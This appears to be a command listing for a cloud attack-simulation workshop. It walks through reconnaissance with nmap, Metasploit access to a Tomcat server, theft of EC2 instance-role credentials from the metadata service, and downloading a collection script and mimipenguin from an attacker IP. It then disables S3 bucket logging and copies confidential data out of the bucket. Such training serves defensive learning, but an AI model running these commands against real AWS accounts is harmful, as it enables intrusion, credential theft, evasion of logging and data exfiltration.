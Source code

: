 ```yaml
---
title: "All Commands"
weight: 9
---
```


## Lab 0 - Explore

https://us-east-1.console.aws.amazon.com/ec2/home?region=us-east-1#Instances:tag:Name=LinuxBastion

```shell
kubectl get pods -A
```

https://us-east-1.console.aws.amazon.com/ec2/home?region=us-east-1#Instances:tag:Name=Kali

## Lab 1 - Reconnaissance - active scanning using NMAP

```shell
export TARGET_DNS=$(aws elbv2 describe-load-balancers --query \ LoadBalancers[].DNSName --output text)
echo $TARGET_DNS
```

```shell
nmap -Pn -v -A $TARGET_DNS
```

https://www.cvedetails.com/vulnerability-list/vendor_id-45/product_id-887/version_id-554739/Apache-Tomcat-8.0.32.html

https://www.exploit-db.com/search?cve=2017-12617

## Lab 2 - Initial Access

```shell
./start-msploit.sh
```

```shell
sudo msfconsole -r startup.rc
```

```shell
sessions -i 1
```

```shell
ls -al
```

## Lab 3 - Privilege Escalation by enumerating instance profile role

```shell
curl http://169.254.169.254/latest/meta-data/identity-credentials/ec2/security-credentials/ec2-instance
```

## Credential Access via crednetials from Password Stores; Lateral Movement vis Ingress tool transfer.

```shell
netstat -n | grep 443
```

```shell
ls -al
```

```shell
wget http://IP/collection.sh
```

```shell
wget http://IP/mimipenguin.sh
```

## Lab 4 - Defense Evasion by impairing defenses

```shell
aws sts get-caller-identity
```

```shell
aws s3 ls
```

```shell
TARGET_BUCKET=$(aws s3api list-buckets --query 'Buckets[].[Name]' --output text | grep confidentialbucket)
echo $TARGET_BUCKET
aws s3api get-bucket-logging --bucket $TARGET_BUCKET
```

```shell
echo "{}" > no-bucket-logging.json
aws s3api put-bucket-logging --bucket $TARGET_BUCKET --bucket-logging-status file://no-bucket-logging.json
aws s3api get-bucket-logging --bucket $TARGET_BUCKET
```

## Exfiltration

```shell
aws s3 ls s3://$TARGET_BUCKET
aws s3 cp s3://$TARGET_BUCKET/confidential-data.txt s3-captured.txt
ls -al
```
